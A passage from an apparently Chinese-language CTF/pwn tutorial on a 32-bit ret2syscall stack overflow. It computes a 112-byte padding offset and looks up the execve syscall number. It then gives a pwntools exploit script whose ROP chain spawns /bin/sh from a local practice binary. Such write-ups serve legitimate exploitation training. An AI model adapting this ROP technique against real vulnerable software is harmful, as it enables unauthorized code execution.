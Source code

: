 [![](assets/1701612384-87da10def12c560fdda36bded4983f58.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203301-1680dfbe-1679-1.png)

可以看到我们输入的字符存储在 eax 的 0xffffd0ec 地址，要想栈溢出需要覆盖到 ebp 的 0xffffd158，然后 ebp 自身还有 4 字节的长度，所以要写入 112 个的垃圾字节

这里说一下如何查看 eax 中的 execve 的系统调用号

```plain
cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep "execve"
```

[![](assets/1701612384-885773e987f978a0ce6cde7a05294a93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203331-2869f8fa-1679-1.png)

十进制的 11，也就是 16 进制的 0xb

编写 exp

```plain
from pwn import *

io = process('./ret2syscall')

pop_eax_ret_addr=0x080bb196
pop_edx_ecx_ebx_addr=0x0806eb90
int_80=0x08049421
bin_sh_addr=0x080be408

payload=flat([b'A'*112,pop_eax_ret_addr,0xb,pop_edx_ecx_ebx_addr,0,0,bin_sh_addr,int_80])
#利用 flat() 将一系列数据打包成二进制格式的字符串
#相当于 payload=b'A'*112+p32(pop_eax_ret_addr)+p32(0xb)+p32(pop_edx_ecx_ebx_addr)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_80) 不知道这一长串为什么不行，栈平衡的问题

io.sendline(payload)
io.interactive()
```
